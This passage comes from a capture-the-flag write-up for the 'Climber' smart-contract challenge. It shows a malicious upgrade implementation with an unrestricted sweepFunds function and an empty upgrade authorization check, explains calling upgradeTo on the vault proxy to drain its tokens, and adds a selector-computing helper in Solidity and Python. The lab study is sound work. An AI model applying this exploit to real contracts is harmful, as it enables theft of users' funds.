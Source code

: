 ```cs
    }

    function sweepFunds(address tokenAddress) external {
        require(IERC20(tokenAddress).transfer(msg.sender, IERC20(tokenAddress).balanceOf(address(this))), "Transfer failed");
    }

    function _authorizeUpgrade(address newImplementation) internal override {}
}
```

After deploying this contract, we call `upgradeTo()` on the ClimberVault proxy contract to upgrade to the malicious implementation ClimberUpgrade and then call `sweepFunds()` on the ClimberVault proxy contract, which will be calling the new and replaced `sweepFunds()` function with no modifiers, thereby sending the tokens to the caller.

### Extras

In order to get function selectors, something I didn't quite know how to do in brownie at the time. I coded a GetSelector contract which I also deploy in order to obtain function selectors:

```cs
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GetSelector {
    function getSelector(string calldata _func) external pure returns (bytes4) {
        return bytes4(keccak256(bytes(_func)));
    }
}
```

Then made a lambda function in python which returns the selector in HexBytes:

```python
get_selector = GetSelector.deploy(_fromAttacker)
gs = lambda func: get_selector.getSelector(func)
```

Which I then convert to a hex string with the `.hex()` method:

```python
gs('grantRole(bytes32,address)').hex()
```
